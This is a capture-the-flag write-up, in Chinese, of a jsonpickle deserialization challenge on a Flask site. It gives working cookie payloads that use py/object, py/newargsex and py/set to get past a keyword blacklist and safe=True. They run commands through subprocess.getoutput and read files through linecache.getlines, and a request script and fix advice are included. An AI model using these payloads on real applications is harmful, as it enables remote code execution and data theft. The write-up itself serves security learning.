










## 前言

最近参加了强网杯S8的决赛，本篇记录其中 Flask Web 题的 Jsonpickle 反序列化分析过程。（本文已发表收录于奇安信攻防社区：[**https://forum.butian.net/share/3974**](https://forum.butian.net/share/3974)）

## 1. Token 生成与管理员判断

题目使用 Flask 和 jsonpickle 生成登录 Token。Token 对应的对象是一个包含用户名和时间戳的 Token 实例：

```python
@dataclass
class Token:
    username: str
    timestamp: int


token = Token(username, time())
cookie_value = base64.urlsafe_b64encode(
    jsonpickle.encode(token).encode()
).decode()
```

普通用户登录后，可以将 Cookie Base64 解码为类似下面的 Jsonpickle 数据：

```json
{"py/object": "__main__.Token", "username": "guest", "timestamp": 1733551979.8980324}
```

首页路由会先检查 WAF，再以 safe=True 反序列化 Token，随后验证时间戳和用户名：

```python
if not waf(jtoken):
    return "Invalid token"

token = jsonpickle.decode(jtoken, safe=True)
if time() - token.timestamp < 60:
    if token.username != "admin":
        return f"Welcome {token.username}, but you are not admin"
    return "Welcome admin, there is something in /s3Cr3T"
return "Invalid token"
```



这里有两个可以利用的特点：

- 反序列化结果的 username 会被拼接到响应中，可以作为命令结果的回显位置
- timestamp 只要足够新，就能通过 /home 的时间检查

## 2. Safe 模式与 py/reduce

Jsonpickle 的 safe=True 试图限制危险对象的恢复范围，但它并不等价于把输入当作普通 JSON 处理。首先用 __reduce__ 构造一个本地测试对象：

```python
import jsonpickle


class Exp:
    def __reduce__(self):
        return (__import__("os").system, ("whoami",))


payload = jsonpickle.encode(Exp())
jsonpickle.decode(payload, safe=True)
```

本地测试可以触发命令执行：



但直接把这个 payload 放到题目环境中会得到 500。除了命令执行后没有网络回显之外，还要考虑反序列化结果是否满足后续代码对 timestamp 和 username 属性的访问。

jsonpickle.encode 生成的关键结构是：

```json
{"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}
```

题目又通过字符串黑名单过滤了 reduce、tuple、nt、builtins、os、exec、eval 等关键词：

```python
BLACKLIST = [
    "repr", "state", "json", "reduce", "tuple", "nt", "\\",
    "builtins", "os", "popen", "exec", "eval", "posix",
    "spawn", "compile", "code",
]
```

因此，需要继续跟踪 Jsonpickle 的标签恢复流程，寻找不依赖被过滤标签的构造方式。

## 3. 跟踪 Jsonpickle 的恢复流程

### 3.1 _restore

反序列化入口会根据对象类型选择处理函数。字符串、列表、字典、集合和元组等容器会进入标签恢复逻辑：

```python
def _restore(self, obj, reset=False):
    if not isinstance(obj, (str, list, dict, set, tuple)):
        restore = self._passthrough
    else:
        restore = self._restore_tags(obj)
    return restore(obj)
```



### 3.2 _restore_tags

_restore_tags 会识别字典中的特殊键，例如 py/object、py/function、py/type 和 py/newargsex，再调用对应的恢复函数：



py/reduce 的处理大致是先递归恢复函数和参数，再调用恢复后的对象：

```python
reduce_val = [self._restore(value) for value in obj[tags.REDUCE]]
```



py/function 会根据全限定名加载函数：



函数和参数恢复完成后，最终进入命令执行函数：



## 4. 常见 Pyckle Tag

Pyckle Tag 是 Jsonpickle 用来描述 Python 对象和特殊数据结构的保留字段。它们本质上是 JSON 对象中的键，Unpickler 会根据这些键决定如何创建对象。

| 标签 | 作用 | 本题中的关注点 |
| --- | --- | --- |
| py/object | 按全限定名加载并创建对象 | 可以加载目标类或模块对象 |
| py/function | 加载函数对象 | 可指向危险函数，但会被黑名单拦截 |
| py/type | 加载类型对象 | 可以作为 py/function 的替代路径 |
| py/newargs | 为 __new__ 提供参数 | 传递对象创建参数 |
| py/newargsex | 同时提供位置参数和关键字参数 | 可控制 cls.__new__ 的参数 |
| py/reduce | 按 __reduce__ 结果恢复对象 | 直接利用时被过滤 |
| py/tuple | 恢复元组 | 可以被 py/set 替代部分参数场景 |
| py/set | 恢复集合 | 用于构造 system 的参数集合 |
| py/state | 恢复对象状态 | 被题目过滤 |

## 5. 绕过标签限制

### 5.1 py/object 加载类

普通对象恢复也会调用 _restore_object_instance。当对象带有 py/newargsex 时，Jsonpickle 会将它拆成 args 和 kwargs，然后执行目标类的 __new__：

```python
if has_tag(obj, tags.NEWARGSEX):
    args, kwargs = obj[tags.NEWARGSEX]

instance = cls.__new__(cls, *args, **kwargs)
```

这为绕过 py/function 提供了另一条路径。可以让 py/object 指向 nt.system，再用 py/newargsex 传递参数：

```json
{"py/object": "nt.system", "py/newargsex": [{"py/set": ["whoami"]}, ""]}
```



这里用 py/set 代替被过滤的 py/tuple，使参数仍然可以被恢复并传给目标对象：



### 5.2 py/type 替代 py/function

源码中的 _restore_type 会通过 loadclass 加载类型：

```python
def _restore_type(self, obj):
    typeref = loadclass(obj[tags.TYPE], classes=self._classes)
    if typeref is None:
        return obj
    return typeref
```

因此，在其他标签没有被过滤的情况下，py/type 也可以作为加载目标类型的入口：

```json
{"py/reduce": [{"py/type": "nt.system"}, {"py/tuple": ["whoami"]}]}
```

这条路径说明：仅过滤某一个危险标签，并不能切断整个对象恢复链。真正需要控制的是“用户输入能否决定被加载的类、函数和构造参数”。

## 6. 将命令结果写入 Token.username

题目没有稳定的命令回显，因此把命令执行函数放到 username 字段。Jsonpickle 先恢复外层的 Token，再把 username 的嵌套对象恢复成函数返回值；/home 会把这个返回值放进响应：

```json
{
  "py/object": "__main__.Token",
  "username": {
    "py/object": "linecache.getlines",
    "py/newargsex": [
      {"py/set": ["./flag"]},
      ""
    ]
  },
  "timestamp": 1733463288.647048
}
```

linecache.getlines 可以读取文件内容并作为 username 返回。执行命令时，则可以使用 subprocess.getoutput：

```json
{
  "py/object": "__main__.Token",
  "username": {
    "py/object": "subprocess.getoutput",
    "py/newargsex": [
      {"py/set": ["whoami"]},
      ""
    ]
  },
  "timestamp": 1733463288.647048
}
```

由于题目会检查 timestamp 与当前时间的差值，发送请求时需要动态生成时间戳并重新编码 Cookie：

```python
import base64
import json
import time
import requests


data = {
    "py/object": "__main__.Token",
    "username": {
        "py/object": "subprocess.getoutput",
        "py/newargsex": [
            {"py/set": ["/readflag"]},
            "",
        ],
    },
    "timestamp": time.time(),
}

cookie = base64.urlsafe_b64encode(
    json.dumps(data).encode("utf-8")
).decode()

response = requests.get(
    "http://127.0.0.1:5000/home",
    cookies={"token": cookie},
)
print(response.text)
```

最终将命令输出写入 username 并由 /home 回显：



## 7. 根因与修复建议

| 根因 | 说明 |
| --- | --- |
| 高风险反序列化 | 用户可控 JSON 决定要加载的类、函数和构造参数 |
| safe=True 被误当作完整隔离 | 安全模式仍可能保留复杂对象恢复能力，不能替代输入建模 |
| 黑名单 WAF | 只拦截关键词，容易被其他标签、模块别名或调用路径绕过 |
| 客户端可控认证对象 | 用户可以直接构造 Token 的字段，认证状态缺少服务端绑定 |

更稳妥的实现方式是使用普通 JSON Schema 解析用户名和时间戳，服务端保存会话状态，并禁止从用户输入恢复任意 Python 类、函数或特殊构造标签。对于必须使用的序列化格式，也应该采用明确的类型白名单，而不是依赖字符串黑名单。

## 8. 总结

这道题的利用过程可以概括为：

1. 从登录 Cookie 中识别 Jsonpickle 的对象结构
2. 发现 safe=True 仍然会参与特殊标签恢复
3. 跟踪 _restore、_restore_tags 和对象构造流程
4. 用 py/object、py/newargsex 和 py/set 绕过 py/function、py/reduce、py/tuple 的过滤
5. 将命令执行结果放入 Token.username，利用 /home 完成回显

真正的突破点是把 WAF 的“标签过滤”转化为对 Jsonpickle 恢复机制的分析：只要仍有一条路径能够加载可调用对象并控制构造参数，反序列化链就没有被切断。
